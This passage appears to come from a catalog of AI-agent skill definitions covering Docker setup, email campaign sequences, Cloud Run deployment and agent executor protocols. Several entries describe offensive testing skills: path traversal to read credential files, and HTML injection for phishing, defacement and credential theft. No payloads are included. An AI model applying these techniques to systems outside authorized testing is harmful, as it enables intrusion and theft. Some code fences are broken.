- **Volume strategies**: Named volumes, bind mounts, data persistence

**Production-ready compose pattern:**
```yaml
version: '3.8'
services:
  app:
    build:
      context: .
      target: production
    depends_on:
      db:
        condition: service_healthy
    networks:
      - frontend
      - backend
    healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:3000/health"]
      interval: 30s
      timeout: 10s
      retries: 3
      start_period: 40s
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 512M
        reservations:
          cpus: '0.25'
          memory: 256M

  db:
    image: postgres:15-alpine
    environment:
      POSTGRES_DB_FILE: /run/secrets/db_name
      POSTGRES_USER_FILE: /run/secrets/db_user
      POSTGRES_PASSWORD_FILE: /run/secrets/db_password
    secrets:
      - db_name
      - db_user
      - db_password
    volumes:
      - postgres_data:/var/lib/postgresql/data
    networks:
      - backend
    healthcheck:
      test: ["CMD-SHELL", "pg_isready -U ${POSTGRES_USER}"]
      interval: 10s
      timeout: 5s
      retries: 5

networks:
  frontend:
    driver: bridge
  backend:
    driver: bridge
    internal: true

volumes:
  postgres_data:

secrets:
  db_name:
    external: true
  db_user:
    external: true  
  db_password:
    external: true
```

### 4. Image Size Optimization

**Size reduction strategies:**
- **Distroless images**: Minimal runtime environments
- **Build artifact optimization**: Remove build tools and cache
- **Layer consolidation**: Combine RUN commands strategically
- **Multi-stage artifact copying**: Only copy necessary files

**Optimization techniques:**
```dockerfile
# Minimal production image
FROM gcr.io/distroless/nodejs18-debian11
COPY --from=build /app/dist /app
COPY --from=build /app/node_modules /app/node_modules
WORKDIR /app
EXPOSE 3000
CMD ["index.js"]
```

### 5. Development Workflow Integration

**Development patterns:**
- **Hot reloading setup**: Volume mounting and file watching
- **Debug configuration**: Port exposure and debugging tools
- **Testing integration**: Test-specific containers and environments
- **Development containers**: Remote development container support via CLI tools

**Development workflow:**
```yaml
# Development override
services:
  app:
    build:
      context: .
      target: development
    volumes:
      - .:/app
      - /app/node_modules
      - /app/dist
    environment:
      - NODE_ENV=development
      - DEBUG=app:*
    ports:
      - "9229:9229"  # Debug port
    command: npm run dev
```

### 6. Performance & Resource Management

**Performance optimization:**
- **Resource limits**: CPU, memory constraints for stability
- **Build performance**: Parallel builds, cache utilization
- **Runtime performance**: Process management, signal handling
- **Monitoring integration**: Health checks, metrics exposure

**Resource management:**
```yaml
services:
  app:
    deploy:
      resources:
        limits:
          cpus: '1.0'
          memory: 1G
        reservations:
          cpus: '0.5'
          memory: 512M
      restart_policy:
        condition: on-failure
        delay: 5s
        max_attempts: 3
        window: 120s
```

---

## documentation-templates
- **ID**: `documentation-templates`
- **Confidence**: `0.5`

### Description
Documentation templates and structure guidelines. README, API docs, code comments, and AI-friendly documentation.

---

## docx
- **ID**: `docx`
- **Confidence**: `0.5`

### Description
"Comprehensive document creation, editing, and analysis with support for tracked changes, comments, formatting preservation, and text extraction. When Claude needs to work with professional documents (.docx files) for: (1) Creating new documents, (2) Modifying or editing content, (3) Working with tracked changes, (4) Adding comments, or any other document tasks"

---

## docx
- **ID**: `docx-official`
- **Confidence**: `0.5`

### Description
"Comprehensive document creation, editing, and analysis with support for tracked changes, comments, formatting preservation, and text extraction. When Claude needs to work with professional documents (.docx files) for: (1) Creating new documents, (2) Modifying or editing content, (3) Working with tracked changes, (4) Adding comments, or any other document tasks"

---

## email-sequence
- **ID**: `email-sequence`
- **Confidence**: `1.0`

### Description
When the user wants to create or optimize an email sequence, drip campaign, automated email flow, or lifecycle email program. Also use when the user mentions "email sequence," "drip campaign," "nurture sequence," "onboarding emails," "welcome sequence," "re-engagement emails," "email automation," or "lifecycle emails." For in-app onboarding, see onboarding-cro.

### Activation
A comprehensive guide to lifecycle and campaign emails. Use this as an audit checklist and implementation reference.

### Onboarding Emails

#### New Users Series
**Trigger**: User signs up (free or trial)
**Goal**: Activate user, drive to aha moment
**Typical sequence**: 5-7 emails over 14 days

- Email 1: Welcome + single next step (immediate)
- Email 2: Quick win / getting started (day 1)
- Email 3: Key feature highlight (day 3)
- Email 4: Success story / social proof (day 5)
- Email 5: Check-in + offer help (day 7)
- Email 6: Advanced tip (day 10)
- Email 7: Upgrade prompt or next milestone (day 14)

**Key metrics**: Activation rate, feature adoption

---

#### New Customers Series
**Trigger**: User converts to paid
**Goal**: Reinforce purchase decision, drive adoption, reduce early churn
**Typical sequence**: 3-5 emails over 14 days

- Email 1: Thank you + what's next (immediate)
- Email 2: Getting full value — setup checklist (day 2)
- Email 3: Pro tips for paid features (day 5)
- Email 4: Success story from similar customer (day 7)
- Email 5: Check-in + introduce support resources (day 14)

**Key point**: Different from new user series—they've committed. Focus on reinforcement and expansion, not conversion.

---

#### Key Onboarding Step Reminder
**Trigger**: User hasn't completed critical setup step after X time
**Goal**: Nudge completion of high-value action
**Format**: Single email or 2-3 email mini-sequence

**Example triggers**:
- Hasn't connected integration after 48 hours
- Hasn't invited team member after 3 days
- Hasn't completed profile after 24 hours

**Copy approach**:
- Remind them what they started
- Explain why this step matters
- Make it easy (direct link to complete)
- Offer help if stuck

---

#### New User Invite
**Trigger**: Existing user invites teammate
**Goal**: Activate the invited user
**Recipient**: The person being invited

- Email 1: You've been invited (immediate)
- Email 2: Reminder if not accepted (day 2)
- Email 3: Final reminder (day 5)

**Copy approach**:
- Personalize with inviter's name
- Explain what they're joining
- Single CTA to accept invite
- Social proof optional

---

### Retention Emails

#### Upgrade to Paid
**Trigger**: Free user shows engagement, or trial ending
**Goal**: Convert free to paid
**Typical sequence**: 3-5 emails

**Trigger options**:
- Time-based (trial day 10, 12, 14)
- Behavior-based (hit usage limit, used premium feature)
- Engagement-based (highly active free user)

**Sequence structure**:
- Value summary: What they've accomplished
- Feature comparison: What they're missing
- Social proof: Who else upgraded
- Urgency: Trial ending, limited offer
- Final: Last chance + easy path

---

#### Upgrade to Higher Plan
**Trigger**: User approaching plan limits or using features available on higher tier
**Goal**: Upsell to next tier
**Format**: Single email or 2-3 email sequence

**Trigger examples**:
- 80% of seat limit reached
- 90% of storage/usage limit
- Tried to use higher-tier feature
- Power user behavior patterns

**Copy approach**:
- Acknowledge their growth (positive framing)
- Show what next tier unlocks
- Quantify value vs. cost
- Easy upgrade path

---

#### Ask for Review
**Trigger**: Customer milestone (30/60/90 days, key achievement, support resolution)
**Goal**: Generate social proof on G2, Capterra, app stores
**Format**: Single email

**Best timing**:
- After positive support interaction
- After achieving measurable result
- After renewal
- NOT after billing issues or bugs

**Copy approach**:
- Thank them for being a customer
- Mention specific value/milestone if possible
- Explain why reviews matter (help others decide)
- Direct link to review platform
- Keep it short—this is an ask

---

#### Offer Support Proactively
**Trigger**: Signs of struggle (drop in usage, failed actions, error encounters)
**Goal**: Save at-risk user, improve experience
**Format**: Single email

**Trigger examples**:
- Usage dropped significantly week-over-week
- Multiple failed attempts at action
- Viewed help docs repeatedly
- Stuck at same onboarding step

**Copy approach**:
- Genuine concern tone
- Specific: "I noticed you..." (if data allows)
- Offer direct help (not just link to docs)
- Personal from support or CSM
- No sales pitch—pure help

---

#### Product Usage Report
**Trigger**: Time-based (weekly, monthly, quarterly)
**Goal**: Demonstrate value, drive engagement, reduce churn
**Format**: Single email, recurring

**What to include**:
- Key metrics/activity summary
- Comparison to previous period
- Achievements/milestones
- Suggestions for improvement
- Light CTA to explore more

**Examples**:
- "You saved X hours this month"
- "Your team completed X projects"
- "You're in the top X% of users"

**Key point**: Make them feel good and remind them of value delivered.

---

#### NPS Survey
**Trigger**: Time-based (quarterly) or event-based (post-milestone)
**Goal**: Measure satisfaction, identify promoters and detractors
**Format**: Single email

**Best practices**:
- Keep it simple: Just the NPS question initially
- Follow-up form for "why" based on score
- Personal sender (CEO, founder, CSM)
- Tell them how you'll use feedback

**Follow-up based on score**:
- Promoters (9-10): Thank + ask for review/referral
- Passives (7-8): Ask what would make it a 10
- Detractors (0-6): Personal outreach to understand issues

---

#### Referral Program
**Trigger**: Customer milestone, promoter NPS score, or campaign
**Goal**: Generate referrals
**Format**: Single email or periodic reminders

**Good timing**:
- After positive NPS response
- After customer achieves result
- After renewal
- Seasonal campaigns

**Copy approach**:
- Remind them of their success
- Explain the referral offer clearly
- Make sharing easy (unique link)
- Show what's in it for them AND referee

---

### Billing Emails

#### Switch to Annual
**Trigger**: Monthly subscriber at renewal time or campaign
**Goal**: Convert monthly to annual (improve LTV, reduce churn)
**Format**: Single email or 2-email sequence

**Value proposition**:
- Calculate exact savings
- Additional benefits (if any)
- Lock in current price messaging
- Easy one-click switch

**Best timing**:
- Around monthly renewal date
- End of year / new year
- After 3-6 months of loyalty
- Price increase announcement (lock in old rate)

---

#### Failed Payment Recovery
**Trigger**: Payment fails
**Goal**: Recover revenue, retain customer
**Typical sequence**: 3-4 emails over 7-14 days

**Sequence structure**:
- Email 1 (Day 0): Friendly notice, update payment link
- Email 2 (Day 3): Reminder, service may be interrupted
- Email 3 (Day 7): Urgent, account will be suspended
- Email 4 (Day 10-14): Final notice, what they'll lose

**Copy approach**:
- Assume it's an accident (card expired, etc.)
- Clear, direct, no guilt
- Single CTA to update payment
- Explain what happens if not resolved

**Key metrics**: Recovery rate, time to recovery

---

#### Cancellation Survey
**Trigger**: User cancels subscription
**Goal**: Learn why, opportunity to save
**Format**: Single email (immediate)

**Options**:
- In-app survey at cancellation (better completion)
- Follow-up email if they skip in-app
- Personal outreach for high-value accounts

**Questions to ask**:
- Primary reason for cancelling
- What could we have done better
- Would anything change your mind
- Can we help with transition

**Winback opportunity**: Based on reason, offer targeted save (discount, pause, downgrade, training).

---

#### Upcoming Renewal Reminder
**Trigger**: X days before renewal (14 or 30 days typical)
**Goal**: No surprise charges, opportunity to expand
**Format**: Single email

**What to include**:
- Renewal date and amount
- What's included in renewal
- How to update payment/plan
- Changes to pricing/features (if any)
- Optional: Upsell opportunity

**Required for**: Annual subscriptions, high-value contracts

---

### Usage Emails

#### Daily/Weekly/Monthly Summary
**Trigger**: Time-based
**Goal**: Drive engagement, demonstrate value
**Format**: Single email, recurring

**Content by frequency**:
- **Daily**: Notifications, quick stats (for high-engagement products)
- **Weekly**: Activity summary, highlights, suggestions
- **Monthly**: Comprehensive report, achievements, ROI if calculable

**Structure**:
- Key metrics at a glance
- Notable achievements
- Activity breakdown
- Suggestions / what to try next
- CTA to dive deeper

**Personalization**: Must be relevant to their actual usage. Empty reports are worse than no report.

---

#### Key Event or Milestone Notifications
**Trigger**: Specific achievement or event
**Goal**: Celebrate, drive continued engagement
**Format**: Single email per event

**Milestone examples**:
- First [action] completed
- 10th/100th [thing] created
- Goal achieved
- Team collaboration milestone
- Usage streak

**Copy approach**:
- Celebration tone
- Specific achievement
- Context (compared to others, compared to before)
- What's next / next milestone

---

### Win-Back Emails

#### Expired Trials
**Trigger**: Trial ended without conversion
**Goal**: Convert or re-engage
**Typical sequence**: 3-4 emails over 30 days

**Sequence structure**:
- Email 1 (Day 1 post-expiry): Trial ended, here's what you're missing
- Email 2 (Day 7): What held you back? (gather feedback)
- Email 3 (Day 14): Incentive offer (discount, extended trial)
- Email 4 (Day 30): Final reach-out, door is open

**Segmentation**: Different approach based on trial engagement level:
- High engagement: Focus on removing friction to convert
- Low engagement: Offer fresh start, more onboarding help
- No engagement: Ask what happened, offer demo/call

---

#### Cancelled Customers
**Trigger**: Time after cancellation (30, 60, 90 days)
**Goal**: Win back churned customers
**Typical sequence**: 2-3 emails spread over 90 days

**Sequence structure**:
- Email 1 (Day 30): What's new since you left
- Email 2 (Day 60): We've addressed [common reason]
- Email 3 (Day 90): Special offer to return

**Copy approach**:
- No guilt, no desperation
- Genuine updates and improvements
- Personalize based on cancellation reason if known
- Make return easy

**Key point**: They're more likely to return if their reason was addressed.

---

### Campaign Emails

#### Monthly Roundup / Newsletter
**Trigger**: Time-based (monthly)
**Goal**: Engagement, brand presence, content distribution
**Format**: Single email, recurring

**Content mix**:
- Product updates and tips
- Customer stories
- Educational content
- Company news
- Industry insights

**Best practices**:
- Consistent send day/time
- Scannable format
- Mix of content types
- One primary CTA focus
- Unsubscribe is okay—keeps list healthy

---

#### Seasonal Promotions
**Trigger**: Calendar events (Black Friday, New Year, etc.)
**Goal**: Drive conversions with timely offer
**Format**: Campaign burst (2-4 emails)

**Common opportunities**:
- New Year (fresh start, annual planning)
- End of fiscal year (budget spending)
- Black Friday / Cyber Monday
- Industry-specific seasons
- Back to school / work

**Sequence structure**:
- Announcement: Offer reveal
- Reminder: Midway through promotion
- Last chance: Final hours

---

#### Product Updates
**Trigger**: New feature release
**Goal**: Adoption, engagement, demonstrate momentum
**Format**: Single email per major release

**What to include**:
- What's new (clear and simple)
- Why it matters (benefit, not just feature)
- How to use it (direct link)
- Who asked for it (community acknowledgment)

**Segmentation**: Consider targeting based on relevance:
- Users who would benefit most
- Users who requested feature
- Power users first (for beta feel)

---

#### Industry News Roundup
**Trigger**: Time-based (weekly or monthly)
**Goal**: Thought leadership, engagement, brand value
**Format**: Curated newsletter

**Content**:
- Curated news and links
- Your take / commentary
- What it means for readers
- How your product helps

**Best for**: B2B products where customers care about industry trends.

---

#### Pricing Update
**Trigger**: Price change announcement
**Goal**: Transparent communication, minimize churn
**Format**: Single email (or sequence for major changes)

**Timeline**:
- Announce 30-60 days before change
- Reminder 14 days before
- Final notice 7 days before

**Copy approach**:
- Clear, direct, transparent
- Explain the why (value delivered, costs increased)
- Grandfather if possible (lock in old rate)
- Give options (annual lock-in, downgrade)

**Important**: Honesty and advance notice build trust even when price increases.

---

---

## email-systems
- **ID**: `email-systems`
- **Confidence**: `0.5`

### Description
"Email has the highest ROI of any marketing channel. $36 for every $1 spent. Yet most startups treat it as an afterthought - bulk blasts, no personalization, landing in spam folders.  This skill covers transactional email that works, marketing automation that converts, deliverability that reaches inboxes, and the infrastructure decisions that scale. Use when: keywords, file_patterns, code_patterns."

---

## Empirical Validation
- **ID**: `empirical-validation`
- **Confidence**: `0.5`

### Description
Requires proof before marking work complete — no "trust me, it works"

---

## environment-setup-guide
- **ID**: `environment-setup-guide`
- **Confidence**: `1.0`

### Description
"Guide developers through setting up development environments with proper tools, dependencies, and configurations"

### When to Use
- Use when starting a new project and need to set up the development environment
- Use when onboarding new team members to a project
- Use when switching to a new machine or operating system
- Use when troubleshooting environment-related issues
- Use when documenting setup instructions for a project
- Use when creating development environment documentation

### Activation
### Step 1: Install Python

**macOS:**
\`\`\`bash
brew install python@3.11
\`\`\`

**Linux:**
\`\`\`bash
sudo apt update
sudo apt install python3.11 python3.11-venv python3-pip
\`\`\`

**Windows:**
\`\`\`powershell
choco install python --version=3.11
\`\`\`

### Step 2: Verify Installation

\`\`\`bash
python3 --version  # Should show Python 3.11.x
pip3 --version     # Should show pip 23.x.x
\`\`\`

### Step 3: Create Virtual Environment

\`\`\`bash
# Navigate to project directory
cd my-project

# Create virtual environment
python3 -m venv venv

# Activate virtual environment
# macOS/Linux:
source venv/bin/activate

# Windows:
venv\Scripts\activate
\`\`\`

### Step 4: Install Dependencies

\`\`\`bash
# Install from requirements.txt
pip install -r requirements.txt

# Or install packages individually
pip install flask sqlalchemy python-dotenv
\`\`\`

### Step 5: Set Up Environment Variables

Create \`.env\` file:
\`\`\`
FLASK_APP=app.py
FLASK_ENV=development
DATABASE_URL=sqlite:///app.db
SECRET_KEY=your-secret-key-here
\`\`\`

### Step 6: Run the Application

\`\`\`bash
# Run Flask app
flask run

# Should see: Running on http://127.0.0.1:5000
\`\`\`
```

### Example 3: Docker Development Environment

```markdown

---

## Ethical Hacking Methodology
- **ID**: `ethical-hacking-methodology`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "learn ethical hacking", "understand penetration testing lifecycle", "perform reconnaissance", "conduct security scanning", "exploit vulnerabilities", or "write penetration test reports". It provides comprehensive ethical hacking methodology and techniques.

### Purpose
Master the complete penetration testing lifecycle from reconnaissance through reporting. This skill covers the five stages of ethical hacking methodology, essential tools, attack techniques, and professional reporting for authorized security assessments.

### Behavior & Constraints
### Authorization Required
- Never test without written permission
- Stay within defined scope
- Report unauthorized access attempts

### Professional Standards
- Follow rules of engagement
- Maintain client confidentiality
- Document methodology used
- Provide actionable recommendations

---

## exa-search
- **ID**: `exa-search`
- **Confidence**: `1.0`

### Description
Semantic search, similar content discovery, and structured research using Exa API

### When to Use
- When you need semantic/embeddings-based search
- When finding similar content
- When searching by category (company, people, research papers, etc.)

---

## executing-plans
- **ID**: `executing-plans`
- **Confidence**: `0.5`

### Description
Use when you have a written implementation plan to execute in a separate session with review checkpoints

---

## GSD Executor
- **ID**: `executor`
- **Confidence**: `1.0`

### Description
Executes GSD plans with atomic commits, deviation handling, checkpoint protocols, and state management

### Behavior & Constraints
### Step 1: Load Project State

Before any operation, read project state:

```powershell
Get-Content ".gsd/STATE.md" -ErrorAction SilentlyContinue
```

**If file exists:** Parse and internalize:
- Current position (phase, plan, status)
- Accumulated decisions (constraints on this execution)
- Blockers/concerns (things to watch for)

**If file missing but .gsd/ exists:** Reconstruct from existing artifacts.

**If .gsd/ doesn't exist:** Error — project not initialized.

### Step 2: Load Plan

Read the plan file provided in your prompt context.

Parse:
- Frontmatter (phase, plan, type, autonomous, wave, depends_on)
- Objective
- Context files to read
- Tasks with their types
- Verification criteria
- Success criteria

### Step 3: Determine Execution Pattern

**Pattern A: Fully autonomous (no checkpoints)**
- Execute all tasks sequentially
- Create SUMMARY.md
- Commit and report completion

**Pattern B: Has checkpoints**
- Execute tasks until checkpoint
- At checkpoint: STOP and return structured checkpoint message
- Fresh continuation agent resumes

**Pattern C: Continuation (spawned to continue)**
- Check completed tasks in your prompt
- Verify those commits exist
- Resume from specified task

### Step 4: Execute Tasks

For each task:

1. **Read task type**

2. **If `type="auto"`:**
   - Work toward task completion
   - If CLI/API returns authentication error → Handle as authentication gate
   - When you discover additional work not in plan → Apply deviation rules
   - Run the verification
   - Confirm done criteria met
   - **Commit the task** (see Task Commit Protocol)
   - Track completion and commit hash for Summary

3. **If `type="checkpoint:*"`:**
   - STOP immediately
   - Return structured checkpoint message
   - You will NOT continue — a fresh agent will be spawned

4. Run overall verification checks
5. Document all deviations in Summary

---

---

## file-organizer
- **ID**: `file-organizer`
- **Confidence**: `1.0`

### Description
Intelligently organizes files and folders by understanding context, finding duplicates, and suggesting better organizational structures. Use when user wants to clean up directories, organize downloads, remove duplicates, or restructure projects.

### When to Use
- Your Downloads folder is a chaotic mess
- You can't find files because they're scattered everywhere
- You have duplicate files taking up space
- Your folder structure doesn't make sense anymore
- You want to establish better organization habits
- You're starting a new project and need a good structure
- You're cleaning up before archiving old projects

---

## File Path Traversal Testing
- **ID**: `file-path-traversal`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for directory traversal", "exploit path traversal vulnerabilities", "read arbitrary files through web applications", "find LFI vulnerabilities", or "access files outside web root". It provides comprehensive file path traversal attack and testing methodologies.

### Purpose
Identify and exploit file path traversal (directory traversal) vulnerabilities that allow attackers to read arbitrary files on the server, potentially including sensitive configuration files, credentials, and source code. This vulnerability occurs when user-controllable input is passed to filesystem APIs without proper validation.

### Behavior & Constraints
### Permission Restrictions
- Cannot read files application user cannot access
- Shadow file requires root privileges
- Many files have restrictive permissions

### Application Restrictions
- Extension validation may limit file types
- Base path validation may restrict scope
- WAF may block common payloads

### Testing Considerations
- Respect authorized scope
- Avoid accessing genuinely sensitive data
- Document all successful access

---

## file-uploads
- **ID**: `file-uploads`
- **Confidence**: `0.5`

### Description
"Expert at handling file uploads and cloud storage. Covers S3, Cloudflare R2, presigned URLs, multipart uploads, and image optimization. Knows how to handle large files without blocking. Use when: file upload, S3, R2, presigned URL, multipart."

---

## finishing-a-development-branch
- **ID**: `finishing-a-development-branch`
- **Confidence**: `0.5`

### Description
Use when implementation is complete, all tests pass, and you need to decide how to integrate the work - guides completion of development work by presenting structured options for merge, PR, or cleanup

---

## firebase
- **ID**: `firebase`
- **Confidence**: `0.5`

### Description
"Firebase gives you a complete backend in minutes - auth, database, storage, functions, hosting. But the ease of setup hides real complexity. Security rules are your last line of defense, and they're often wrong. Firestore queries are limited, and you learn this after you've designed your data model.  This skill covers Firebase Authentication, Firestore, Realtime Database, Cloud Functions, Cloud Storage, and Firebase Hosting. Key insight: Firebase is optimized for read-heavy, denormalized data. I"

---

## firecrawl-scraper
- **ID**: `firecrawl-scraper`
- **Confidence**: `1.0`

### Description
Deep web scraping, screenshots, PDF parsing, and website crawling using Firecrawl API

### When to Use
- When you need deep content extraction from web pages
- When page interaction is required (clicking, scrolling, etc.)
- When you want screenshots or PDF parsing
- When batch scraping multiple URLs

---

## form-cro
- **ID**: `form-cro`
- **Confidence**: `1.0`

### Description
>

### Behavior & Constraints
### 1. Form Type

* Lead capture
* Contact
* Demo / sales request
* Application
* Survey / feedback
* Quote / estimate
* Checkout (non-account)

---

### 2. Business Context

* What happens after submission?
* Which fields are actually used?
* What qualifies as a “good” submission?
* Any legal or compliance constraints?

---

### 3. Current Performance

* Completion rate
* Field-level drop-off (if available)
* Mobile vs desktop split
* Known abandonment points

---

1. What is the current completion rate?
2. Which fields are actually used?
3. Do you have field-level analytics?
4. What happens after submission?
5. Are there compliance constraints?
6. Mobile vs desktop traffic split?

---

---

## free-tool-strategy
- **ID**: `free-tool-strategy`
- **Confidence**: `0.5`

### Description
When the user wants to plan, evaluate, or build a free tool for marketing purposes — lead generation, SEO value, or brand awareness. Also use when the user mentions "engineering as marketing," "free tool," "marketing tool," "calculator," "generator," "interactive tool," "lead gen tool," "build a tool for leads," or "free resource." This skill bridges engineering and marketing — useful for founders and technical marketers.

---

## frontend-design
- **ID**: `frontend-design`
- **Confidence**: `0.5`

### Description
Create distinctive, production-grade frontend interfaces with intentional aesthetics, high craft, and non-generic visual identity. Use when building or styling web UIs, components, pages, dashboards, or frontend applications.

---

## frontend-dev-guidelines
- **ID**: `frontend-dev-guidelines`
- **Confidence**: `1.0`

### Description
Opinionated frontend development standards for modern React + TypeScript applications. Covers Suspense-first data fetching, lazy loading, feature-based architecture, MUI v7 styling, TanStack Router, performance optimization, and strict TypeScript practices.

### When to Use
Use **frontend-dev-guidelines** when:

* Creating components or pages
* Adding new features
* Fetching or mutating data
* Setting up routing
* Styling with MUI
* Addressing performance issues
* Reviewing or refactoring frontend code

---

---

## game-development
- **ID**: `game-development`
- **Confidence**: `1.0`

### Description
Game development orchestrator. Routes to platform-specific skills based on project needs.

### When to Use
You are working on a game development project. This skill teaches the PRINCIPLES of game development and directs you to the right sub-skill based on context.

---

---

## gcp-cloud-run
- **ID**: `gcp-cloud-run`
- **Confidence**: `1.0`

### Description
"Specialized skill for building production-ready serverless applications on GCP. Covers Cloud Run services (containerized), Cloud Run Functions (event-driven), cold start optimization, and event-driven architecture with Pub/Sub."

### When to Use
### Cloud Run Service Pattern

Containerized web service on Cloud Run

**When to use**: ['Web applications and APIs', 'Need any runtime or library', 'Complex services with multiple endpoints', 'Stateless containerized workloads']

```javascript
```dockerfile
# Dockerfile - Multi-stage build for smaller image
FROM node:20-slim AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production

FROM node:20-slim
WORKDIR /app

# Copy only production dependencies
COPY --from=builder /app/node_modules ./node_modules
COPY src ./src
COPY package.json ./

# Cloud Run uses PORT env variable
ENV PORT=8080
EXPOSE 8080

# Run as non-root user
USER node

CMD ["node", "src/index.js"]
```

```javascript
// src/index.js
const express = require('express');
const app = express();

app.use(express.json());

// Health check endpoint
app.get('/health', (req, res) => {
  res.status(200).send('OK');
});

// API routes
app.get('/api/items/:id', async (req, res) => {
  try {
    const item = await getItem(req.params.id);
    res.json(item);
  } catch (error) {
    console.error('Error:', error);
    res.status(500).json({ error: 'Internal server error' });
  }
});

// Graceful shutdown
process.on('SIGTERM', () => {
  console.log('SIGTERM received, shutting down gracefully');
  server.close(() => {
    console.log('Server closed');
    process.exit(0);
  });
});

const PORT = process.env.PORT || 8080;
const server = app.listen(PORT, () => {
  console.log(`Server listening on port ${PORT}`);
});
```

```yaml
# cloudbuild.yaml
steps:
  # Build the container image
  - name: 'gcr.io/cloud-builders/docker'
    args: ['build', '-t', 'gcr.io/$PROJECT_ID/my-service:$COMMIT_SHA', '.']

  # Push the container image
  - name: 'gcr.io/cloud-builders/docker'
    args: ['push', 'gcr.io/$PROJECT_ID/my-service:$COMMIT_SHA']

  # Deploy to Cloud Run
  - name: 'gcr.io/google.com/cloudsdktool/cloud-sdk'
    entrypoint: gcloud
    args:
      - 'run'
      - 'deploy'
      - 'my-service'
      - '--image=gcr.io/$PROJECT_ID/my-service:$COMMIT_SHA'
      - '--region=us-central1'
      - '--platform=managed'
      - '--allow-unauthenticated'
      - '--memory=512Mi'
      - '--cpu=1'
      - '--min-instances=1'
      - '--max-instances=100'
     
```

### Cloud Run Functions Pattern

Event-driven functions (formerly Cloud Functions)

**When to use**: ['Simple event handlers', 'Pub/Sub message processing', 'Cloud Storage triggers', 'HTTP webhooks']

```javascript
```javascript
// HTTP Function
// index.js
const functions = require('@google-cloud/functions-framework');

functions.http('helloHttp', (req, res) => {
  const name = req.query.name || req.body.name || 'World';
  res.send(`Hello, ${name}!`);
});
```

```javascript
// Pub/Sub Function
const functions = require('@google-cloud/functions-framework');

functions.cloudEvent('processPubSub', (cloudEvent) => {
  // Decode Pub/Sub message
  const message = cloudEvent.data.message;
  const data = message.data
    ? JSON.parse(Buffer.from(message.data, 'base64').toString())
    : {};

  console.log('Received message:', data);

  // Process message
  processMessage(data);
});
```

```javascript
// Cloud Storage Function
const functions = require('@google-cloud/functions-framework');

functions.cloudEvent('processStorageEvent', async (cloudEvent) => {
  const file = cloudEvent.data;

  console.log(`Event: ${cloudEvent.type}`);
  console.log(`Bucket: ${file.bucket}`);
  console.log(`File: ${file.name}`);

  if (cloudEvent.type === 'google.cloud.storage.object.v1.finalized') {
    await processUploadedFile(file.bucket, file.name);
  }
});
```

```bash
# Deploy HTTP function
gcloud functions deploy hello-http \
  --gen2 \
  --runtime nodejs20 \
  --trigger-http \
  --allow-unauthenticated \
  --region us-central1

# Deploy Pub/Sub function
gcloud functions deploy process-messages \
  --gen2 \
  --runtime nodejs20 \
  --trigger-topic my-topic \
  --region us-central1

# Deploy Cloud Storage function
gcloud functions deploy process-uploads \
  --gen2 \
  --runtime nodejs20 \
  --trigger-event-filters="type=google.cloud.storage.object.v1.finalized" \
  --trigger-event-filters="bucket=my-bucket" \
  --region us-central1
```
```

### Cold Start Optimization Pattern

Minimize cold start latency for Cloud Run

**When to use**: ['Latency-sensitive applications', 'User-facing APIs', 'High-traffic services']

```javascript

---

## geo-fundamentals
- **ID**: `geo-fundamentals`
- **Confidence**: `0.5`

### Description
Generative Engine Optimization for AI search engines (ChatGPT, Claude, Perplexity).

---

## git-pushing
- **ID**: `git-pushing`
- **Confidence**: `1.0`

### Description
Stage, commit, and push git changes with conventional commit messages. Use when user wants to commit and push changes, mentions pushing to remote, or asks to save and push their work. Also activates when user says "push changes", "commit and push", "push this", "push to github", or similar git workflow requests.

### Activation
name: git-pushing
description: Stage, commit, and push git changes with conventional commit messages. Use when user wants to commit and push changes, mentions pushing to remote, or asks to save and push their work. Also activates when user says "push changes", "commit and push", "push this", "push to github", or similar git workflow requests.
---

# Git Push Workflow

Stage all changes, create a conventional commit, and push to the remote branch.

### Activation
Automatically activate when the user:

- Explicitly asks to push changes ("push this", "commit and push")
- Mentions saving work to remote ("save to github", "push to remote")
- Completes a feature and wants to share it
- Says phrases like "let's push this up" or "commit these changes"

---

## github-workflow-automation
- **ID**: `github-workflow-automation`
- **Confidence**: `1.0`

### Description
"Automate GitHub workflows with AI assistance. Includes PR reviews, issue triage, CI/CD integration, and Git operations. Use when automating GitHub workflows, setting up PR review automation, creating GitHub Actions, or triaging issues."

### When to Use
Use this skill when:

- Automating PR reviews with AI
- Setting up issue triage automation
- Creating GitHub Actions workflows
- Integrating AI into CI/CD pipelines
- Automating Git operations (rebases, cherry-picks)

---

---

## graphql
- **ID**: `graphql`
- **Confidence**: `0.5`

### Description
"GraphQL gives clients exactly the data they need - no more, no less. One endpoint, typed schema, introspection. But the flexibility that makes it powerful also makes it dangerous. Without proper controls, clients can craft queries that bring down your server.  This skill covers schema design, resolvers, DataLoader for N+1 prevention, federation for microservices, and client integration with Apollo/urql. Key insight: GraphQL is a contract. The schema is the API documentation. Design it carefully."

---

## HTML Injection Testing
- **ID**: `html-injection-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for HTML injection", "inject HTML into web pages", "perform HTML injection attacks", "deface web applications", or "test content injection vulnerabilities". It provides comprehensive HTML injection attack techniques and testing methodologies.

### Purpose
Identify and exploit HTML injection vulnerabilities that allow attackers to inject malicious HTML content into web applications. This vulnerability enables attackers to modify page appearance, create phishing pages, and steal user credentials through injected forms.

### Behavior & Constraints
### Attack Limitations
- Modern browsers may sanitize some injections
- CSP can prevent inline styles and scripts
- WAFs may block common payloads
- Some applications escape output properly

### Testing Considerations
- Distinguish between HTML injection and XSS
- Verify visual impact in browser
- Test in multiple browsers
- Check for stored vs reflected

### Severity Assessment
- Lower severity than XSS (no script execution)
- Higher impact when combined with phishing
- Consider defacement/reputation damage
- Evaluate credential theft potential

---

## hubspot-integration
- **ID**: `hubspot-integration`
- **Confidence**: `0.5`

### Description
"Expert patterns for HubSpot CRM integration including OAuth authentication, CRM objects, associations, batch operations, webhooks, and custom objects. Covers Node.js and Python SDKs. Use when: hubspot, hubspot api, hubspot crm, hubspot integration, contacts api."

---

## i18n-localization
- **ID**: `i18n-localization`
- **Confidence**: `1.0`

### Description
Internationalization and localization patterns. Detecting hardcoded strings, managing translations, locale files, RTL support.

### When to Use
| Project Type | i18n Needed? |
|--------------|--------------|
| Public web app | ✅ Yes |
| SaaS product | ✅ Yes |
| Internal tool | ⚠️ Maybe |
| Single-region app | ⚠️ Consider future |
